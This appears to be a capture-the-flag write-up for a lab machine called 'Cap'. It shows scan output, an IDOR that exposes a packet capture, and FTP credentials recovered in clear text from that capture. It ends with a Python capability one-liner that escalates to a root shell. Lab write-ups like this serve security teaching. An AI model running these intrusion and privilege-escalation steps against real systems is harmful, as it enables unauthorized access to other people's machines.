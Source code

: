 # Cap

<figure><img src="../../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>







## Ports scan

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Wed, 21 Aug 2024 17:12:49 GMT
<SNIPPED>
```



## Dir scan

```bash
╰─➤  dirscan 10.10.10.245         

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.245/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

capture                 [Status: 302, Size: 222, Words: 21, Lines: 4, Duration: 5224ms]
data                    [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 195ms]
ip                      [Status: 200, Size: 17380, Words: 7260, Lines: 354, Duration: 157ms]
netstat                 [Status: 200, Size: 33344, Words: 16071, Lines: 494, Duration: 156ms]
:: Progress: [20476/20476] :: Job [1/1] :: 251 req/sec :: Duration: [0:01:23] :: Errors: 0 ::
                                                                                                     
```



## Web exploitation&#x20;

### IDOR

On homepage if we click on Security Snapshot...\
we are redirected to: [http://10.10.10.245/capture](http://10.10.10.245/capture)

**The redirection sends**: [http://10.10.10.245/data/5](http://10.10.10.245/data/5)\
![](<../../../.gitbook/assets/image (68).png>)



We can change data from `/5` to `/0`

We get a **0.pcap** file (packets)

If we follow the TCP stream of FTP packets, we get FTP username and password

```
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
```



## User

Through FTP, we get access to user's home directory

```bash
─➤  ftp 10.10.10.245                                                                                            130 ↵
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||59367|)
150 Here comes the directory listing.
drwxr-xr-x    5 1001     1001         4096 Aug 21 11:57 .
drwxr-xr-x    3 0        0            4096 May 23  2021 ..
lrwxrwxrwx    1 0        0               9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23  2021 .cache
drwx------    3 1001     1001         4096 Aug 21 11:57 .gnupg
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27  2021 .viminfo -> /dev/null
drwxr-xr-x    3 1001     1001         4096 Aug 21 11:56 snap
-r--------    1 1001     1001           33 Aug 21 09:47 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||56389|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |**************************************************************************|    33        0.23 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.05 KiB/s)
ftp> 

```

### SSH into the box to get user shell.

## Root&#x20;

As per the machine name, I search for linux capabilities and found the following article

{% embed url="https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/" %}

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)

```

\_\_\_\_\_\_\_\_\_heapbytes' still pwning

